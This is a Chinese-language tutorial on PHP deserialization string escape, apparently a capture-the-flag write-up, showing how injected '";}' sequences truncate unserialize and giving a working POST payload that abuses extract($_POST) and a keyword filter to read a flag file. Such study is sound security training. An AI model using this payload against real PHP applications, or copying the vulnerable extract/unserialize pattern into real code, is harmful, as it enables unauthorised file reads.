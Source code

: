 ## **反序列化逃逸例子**
 PHP反序列化字符逃逸
```
<?php
$a = array('123', 'abc', 'defg');
var_dump(serialize($a));
?>
```

结果
```
string(49) "a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}" 
```

反序列化

```
<?php
//$a = array('123', 'abc', 'defg');
//var_dump(serialize($a));
//"a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}"
$b = 'a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}';
var_dump(unserialize($b));
?>
```

运行结果

```
array(3) { [0]=> string(3) "123" [1]=> string(3) "abc" [2]=> string(4) "defg" } 
```

  我们可以看到在后端中，反序列化是一";}结束的，如果我们把";}带入需要反序列化的字符串中（除了结尾处），是不是就能让反序列化提前结束后面的内容就丢弃了呢？\
  我们把第二个值abc换成abc";i:2;s:5:"qwert";}

```
<?php
//$a = array('123', 'abc', 'defg');
//var_dump(serialize($a));
//"a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:4:"defg";}"
$b = 'a:3:{i:0;s:3:"123";i:1;s:3:"abc";i:2;s:5:"qwert";}";i:2;s:4:"defg";}';
var_dump(unserialize($b));
?>
```

运行结果

```
array(3) { [0]=> string(3) "123" [1]=> string(3) "abc" [2]=> string(5) "qwert" } 
```

成功的反序列化出我们自己定义的内容，丢弃了原先的内容（i:2;s:4:"defg"）




^
## **反序列化字符串逃逸。**
```
extract($_POST);
//接收POST参数值，覆盖变为变量和变量值。

//此时会默认$_SESSION数组中有个img的值为 base64_encode('guest_img.png')
//else中可以看出即使主动传参img_path也无法使用
if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

//序列化$_SESSION数组
$serialize_info = filter(serialize($_SESSION));
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);//替换为空
}

//反序列化后提取数组中img的值 来获取文件内容。
$userinfo = unserialize($serialize_info);
echo file_get_contents(base64_decode($userinfo['img']));
//最终为了读d0g3_f1ag.php文件内容。
}
```
分析
```
通过extract($_POST);
接收POST参数值，变为$_SESSION中变量和值，
再利用序列化后会过滤字符为空格，构造字符串
实现将后面那个默认有个img的数组键值抛弃
只保留一个自己传的img键值，其中值为ZDBnM19mMWFnLnBocA==（d0g3_f1ag.php）
最后反序列化是实现文件读取。
```
测试
```
<?php
$_SESSION['phpflag']=';s:3:"img";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}';
$_SESSION['img'] = base64_encode('guest_img.png');


//序列化$_SESSION数组
echo $serialize_info = filter(serialize($_SESSION));
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

//反序列化
echo '<br>';
print_r(unserialize($serialize_info));

Array
(
    [";s:50:] => img
    [img] => ZDBnM19mMWFnLnBocA==
)
```
所以POST传参
```
_SESSION[phpflag]=;s:3:"img";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

列题：
<https://www.cnblogs.com/g0udan/p/12216207.html>